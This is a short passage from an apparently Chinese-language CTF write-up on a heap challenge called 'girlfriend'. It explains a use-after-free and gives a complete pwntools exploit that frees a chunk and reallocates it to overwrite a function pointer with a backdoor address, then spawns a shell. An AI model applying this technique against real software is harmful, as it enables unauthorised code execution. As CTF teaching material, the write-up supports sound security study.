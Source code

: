 ![](img/ca2b45937e5171e0209455ca6282165b.png)

故我们只需要初始化girlfriend后free掉girlfriend再重新分配一个0x10大小的堆块即可改写该指针为后门函数地址后再show即可getshell

构造exp如下：

```
from pwn import *
p = process('./girlfriend') 
backdoor = 0x400D86

def cmd(command:int):
    p.recvuntil(b'u choice :')
    p.sendline(str(command).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"Please input the length of her name:")
    p.send(str(size).encode())
    p.recvuntil(b"Please tell me her name:")
    p.send(content)

def delete(index:int):
    cmd(2)
    p.recvuntil(b"Index :")
    p.sendline(str(index).encode())

def show(index:int):
    cmd(3)
    p.recvuntil(b"Index :")
    p.sendline(str(index).encode())

def exp():
    new(0x80, "arttnba3")
    delete(0)
    new(0x10, p64(0) + p64(backdoor))
    show(0)
    p.interactive()

if __name__ == "__main__":
    exp() 
```
